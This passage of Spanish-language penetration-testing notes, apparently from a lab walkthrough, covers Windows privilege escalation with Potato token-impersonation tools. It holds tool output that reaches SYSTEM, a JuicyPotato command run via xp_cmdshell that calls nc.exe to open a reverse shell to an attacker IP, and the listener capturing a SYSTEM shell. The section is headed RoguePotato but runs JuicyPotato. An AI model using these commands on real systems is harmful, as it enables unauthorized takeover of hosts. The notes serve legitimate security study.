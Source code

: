 ```powershell
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 924 Token:0x816  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4932
nt authority\system

```

-----


### Rogue Potato
- RoguePotato es un script de windows que nos permite obtener un token de servicio con privilegios elevados.

```powerShell

SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.195 8443 -e cmd.exe" -t *
output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL                                                         

SQL (WINLPE-SRV01\sql_dev  dbo@master)> 
```

- Ahora en nuestra maquina atacante podemos escuchar en el puerto 8443.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.14.195] from (UNKNOWN) [10.129.43.43] 49686
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

``` 
